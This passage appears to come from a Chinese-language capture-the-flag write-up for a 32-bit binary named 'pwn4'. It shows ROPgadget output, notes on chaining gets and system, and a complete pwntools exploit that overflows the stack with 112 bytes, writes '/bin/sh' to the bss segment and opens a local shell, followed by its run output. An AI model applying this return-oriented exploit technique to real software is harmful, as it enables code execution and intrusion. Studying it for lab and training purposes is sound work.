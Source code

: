 3.

```
ROPgadget --binary pwn4 --string "sh"
Strings information
============================================================
0x08048766 : sh
以上方法为错误方法
思路应该是 构造一个gets函数来接收 /bin/sh 的字符串 

故要构造的 rop链为

gets 调用地址
ebx 为内存基址寄存器 所以 pop 内存基址 到 ebx 中
buf 地址

0804A110  gets 

 ROPgadget --binary pwn4 --only "pop|ret" |grep "ebx"
0x0804843d : pop ebx ; ret


从bss段随便找一个内存
0x804a080
```

4.

```
#!/usr/bin/env python
from pwn import *
sh = process('./pwn4')
system_plt = 0x08048490
sh_addr = 0x08048766
get_plt = 0x08048460
pop_ebx = 0x0804843d
buf = 0x804a080
payload = flat(['a' * 112,get_plt,pop_ebx,buf, system_plt, 0xabcdabcd, buf])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()

python pwn4.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './pwn4': pid 4027
[*] Switching to interactive mode
Something surprise here, but I don't think it will work.
What do you think ?$ ls
\         examples.desktop  level1.c  pwn3 


```

